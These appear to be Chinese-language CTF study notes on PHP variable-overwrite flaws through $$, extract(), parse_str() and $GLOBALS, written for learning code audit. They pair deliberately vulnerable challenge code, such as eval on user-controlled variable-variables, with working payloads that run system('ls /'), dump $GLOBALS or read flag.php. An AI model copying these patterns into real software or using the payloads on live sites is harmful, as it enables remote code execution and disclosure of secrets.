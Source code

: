 ```
$a = 'b';
$b = 'ab';
$$a = 'bc' ;//此时$b会变成bc
```
代码审计搜搜$$
经常导致变量覆盖漏洞场景有：
$$，extract()函数，parse_str()函数，import_request_variables()使用不当，开启了全局变量注册等。

## **extract()**
和parse_str()差不多。
例如：
`extract($_POST);`: 这个函数将 `$_POST` 数组中所有的键值对转换为变量和对应的值。例如，如果 `$_POST['user']` 存在，及POST传参user=xx，那么该函数将创建一个名为 `$user` 的变量，并将其值设置为 `$_POST['user']` 的值xx。

如果传参_SESSION[flag]=123。
那么覆盖只有$_SEESION[flag]=123。

^
```
extract($vars);  配合include $__template_path__;
若$vars传参可控，则可实现任意文件读取。
```

^
## **变量覆盖引出$GLOBALS数组**
$GLOBALS数组中有flag值。
```
function getFlag(&$v1,&$v2){
    eval("$$v1 = &$$v2;");
    var_dump($$v1);
}

 $v1 = $_GET['v1'];
 $v2 = $_GET['v2'];

if(preg_match('/ctfshow/', $v1)){
        getFlag($v1,$v2);
 }



?v1=ctfshow&v2=GLOBALS
类似
$ctfshow=$GLOBALS;
var_dump($ctfshow);
```

^
## **常规变量覆盖**
```
error_reporting(0);
extract($_POST);
eval($$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$_);
highlight_file(__FILE__);
```
```
import string
a='_=a&'
s=string.ascii_letters
code="system('ls /');"
for i in range(35):
    a+=s[i]+"="+s[i+1]+"&"
a+=s[i]+"="+code
print(a)

POST传递：
_=a&a=b&b=......&I=J&J=system('ls /');
```


^
## **parse_str()函数**
类似extract()函数和变量覆盖。
parse_str() 函数把查询字符串解析到变量中。
如果未设置第二个参数的array参数，由该函数设置的变量将覆盖其他地方定义已存在的同名变量。
```
// 假设我们有一个 URL 编码的字符串
$str = "name=Kimi&age=30";

// 使用 parse_str() 解析字符串
parse_str($str);

// 输出解析后的变量
echo $name; // 输出 Kimi
echo $age;  // 输出 30

parse_str($str,$arr);   //将把值存在数组里
$arr['name']
$arr['age']
```
```
$v1 = $_POST['v1'];
$v3 = $_GET['v3'];
   parse_str($v1,$v2);
   if($v2['flag']==md5($v3)){
       echo $flag;
   }

Payload：
GET：v3=0
POST: v1=flag=cfcd208495d565ef66e7dff9f98764da
```

^
和extract()配合题：
```
$key1 = 0;
$key2 = 0;
if(isset($_GET['key1']) || isset($_GET['key2']) || isset($_POST['key1']) || isset($_POST['key2'])) {
    die("nonononono");
}
@parse_str($_SERVER['QUERY_STRING']);
extract($_POST);
if($key1 == '36d' && $key2 == '36d') {
    die(file_get_contents('flag.php'));
}
?_POST[key1]=36d&_POST[key2]=36d
通过parse_str转成$_POST[key1]=36d
通过extract转成$key1=36d
```